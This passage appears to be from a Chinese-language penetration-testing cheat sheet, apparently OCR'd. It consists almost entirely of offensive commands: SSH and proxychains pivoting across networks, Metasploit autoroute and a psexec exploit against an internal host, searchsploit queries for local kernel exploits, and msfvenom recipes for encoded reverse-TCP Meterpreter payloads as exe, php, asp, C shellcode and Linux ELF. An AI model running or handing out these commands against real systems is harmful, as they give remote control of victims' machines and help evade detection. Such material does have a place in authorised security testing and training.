 nasm -f bin -o payload.bin payload.asm
nasm -f elf payload.asm; ld -o payload payload.o; objdump -d payload
```
SSH 穿透
```
ssh -D 127.0.0.1:1080 -p 22 user@IP
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains commands target
```
SSH 穿透从一个网络到另一个网络
```
ssh -D 127.0.0.1:1080 -p 22 user1@IP1
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains ssh -D 127.0.0.1:1081 -p 22 user1@IP2
Add socks4 127.0.0.1 1081 in /etc/proxychains.conf
proxychains commands target
```
使用 metasploit 进行穿透
```
route add X.X.X.X 255.255.255.0 1
use auxiliary/server/socks4a
run
proxychains msfcli windows/* PAYLOAD=windows/meterpreter/reverse_tcp LHOST=IP LPORT=443 RHOST=IP E
```
或者
```
# https://www.offensive-security.com/metasploit-unleashed/pivoting/
meterpreter > ipconfig
IP Address  : 10.1.13.3
meterpreter > run autoroute -s 10.1.13.0/24
meterpreter > run autoroute -p
10.1.13.0          255.255.255.0      Session 1
meterpreter > Ctrl+Z
msf auxiliary(tcp) > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 10.1.13.2
msf exploit(psexec) > exploit
meterpreter > ipconfig
IP Address  : 10.1.13.2
```
基于 CSV 文件查询 Exploit-DB
```
git clone https://github.com/offensive-security/exploit-database.git
cd exploit-database
./searchsploit –u
./searchsploit apache 2.2
./searchsploit "Linux Kernel"

cat files.csv | grep -i linux | grep -i kernel | grep -i local | grep -v dos | uniq | grep 2.6 | egrep "<|<=" | sort -k3
```
MSF Payloads
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> X > system.exe
msfvenom -p php/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 R > exploit.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -a x86 --platform win -f asp -o file.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e x86/shikata_ga_nai -b "\x00" -a x86 --platform win -f c
```
MSF 生成在 Linux 下反弹的 Meterpreter Shell
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -f elf -a x86 --platform linux -o shell
```
```